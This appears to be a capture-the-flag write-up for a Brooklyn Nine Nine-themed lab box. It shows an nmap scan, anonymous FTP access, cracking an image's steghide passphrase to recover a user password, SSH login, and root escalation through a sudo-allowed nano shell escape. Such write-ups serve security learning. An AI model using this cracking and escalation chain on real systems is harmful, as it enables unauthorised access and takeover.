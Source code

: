 > Author: jak010   
> Date: 2021.05.22 

## Scan
- Command
	```sh
	$ nmap -sC -sV EXPORT_IP
	```
- Result
	```
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 08:04 UTC
	Nmap scan report for 10.10.51.198
	Host is up (0.26s latency).
	Not shown: 997 closed ports
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
	| ftp-syst:
	|   STAT:
	| FTP server status:
	|      Connected to ::ffff:10.9.26.67
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      At session startup, client count was 2
	|      vsFTPd 3.0.3 - secure, fast, stable
	|_End of status
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
	|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
	|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 16.89 seconds
	```

## Enumeration
- `FTP`
	- File : note_to_jake.txt
		```text
		From Amy,
		Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
		```
		-  Things
			- username : jake, amy, holt
			- Jake password's should week
- `Web`
	- File Download : `brooklyn99.jpg`
		```sh
		$ wget http://{EXPORT_IP}/brooklyn99.jpg
		```

## Steghide && StegCracker
- `stegcracker`
	```
	$ stegcracker brooklyn99.jpg PASSWORD_WORD_LIST
	```
	- Result
		```text
		Holts Password:
		fluffydog12@ninenine
		Enjoy!!
		```


## Gainig Access
- Credential
	- holt : fluffydog12@ninenine
- Command
	```sh
	$ ssh holt@EXPORT_IP
	```

## PRIVILEGE ESCALATE
- `sudo -l`
	```
	Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
	```
- Command
	```sh
	nano -s /bin/sh
	/bin/sh
	^T
	```


